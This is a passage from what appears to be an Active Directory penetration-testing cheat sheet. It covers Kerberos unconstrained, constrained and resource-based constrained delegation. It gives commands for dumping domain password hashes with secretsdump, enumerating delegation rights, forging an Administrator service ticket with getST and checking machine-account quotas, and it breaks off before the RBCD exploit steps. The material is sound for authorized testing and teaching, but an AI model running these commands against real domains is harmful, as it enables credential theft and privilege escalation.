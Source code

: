 
The ticket can then be imported and used for to extract domain users password hash:
```
export KRB5CCNAME=ticket.ccache
secretsdump.py -k -no-pass my.domain.com/'DC$'@DC.my.domain.com
```
#### Constrained delegation
Constrained delegation a security feature that allows a service to impersonate a user, but only for accessing specific services that are explicitly defined. Unlike unconstrained delegation, where a service can impersonate a user to access any resource on the network, constrained delegation limits the resources that the service can access on behalf of the user.

- Enumerating Constrained Delegation with bloodhound
```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```
- Enumerate Constrained Delegation with PowerView
```
Get-DomainUser -TrustedToAuth | select-object -property cn

Get-DomainComputer -TrustedToAuth | select-object -property cn
```
- Enumerate Constrained Delegation with impacket
```
findDelegation.py my.domain.com/pentestuser -k -no-pass -target-domain my.domain.com
```

- Exploiting contrained delegation with impacket
```
getST.py -spn 'CIFS/MACHINEACCOUNT' -impersonate Administrator -dc-ip '10.X.X.X' 'my.domain.com/pentestuser -k -no-pass'
```
This will generate a TGS that can be imported to connect to MACHINEACCOUNT if SMB is enabled. 

Here assumption is `pentestuser` account has `AllowedToDelegate` privilege over `MACHINEACCOUNT`.

**Note**: The TGS can also be requested for other services. The CIFS service here is a good candidate as it can be used for remote access.


#### Resource Based Constrained Delegation
Resource-Based Constrained Delegation (RBCD) is an extension of constrained delegation that allows resource owners to control which accounts are allowed to delegate to them. Unlike traditional constrained delegation, where delegation is configured on the account that requests the delegation, RBCD allows configuration on the target resource.

RBCD can be abused by an account being able to edit the attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` of a computer. The exploit requires the possibility to add a computer account into the AD. By default, a domain user account can add up to 10 machine account, this can be verify with the following commands:

```
#PowerView
Get-DomainObject -Identity my.domain.com -Properties ms-DS-MachineAccountQuota

#bloodyAD
bloodyad -d $DOMAIN -u $USER -p $PASSWORD --host $DOMAIN_CONTROLLER get object 'DC=acme,DC=local' --attr ms-DS-MachineAccountQuota

#ldeep
ldeep ldap -d $DOMAIN -u $USER -p $PASSWORD -s $DOMAIN_CONTROLLER search '(objectclass=domain)' | jq '.[]."ms-DS-MachineAccountQuota"'

#crackmapexec
crackmapexec ldap $DOMAIN_CONTROLLER  -u $USER -p $PASSWORD -M MAQ
```
Assuming `pentestuser` account has the privilege to edit `msDS-AllowedToActOnBehalfOfOtherIdentity` of `MACHINEACCOUNT` and can add a computer account in the AD, the exploit can be done with the following steps: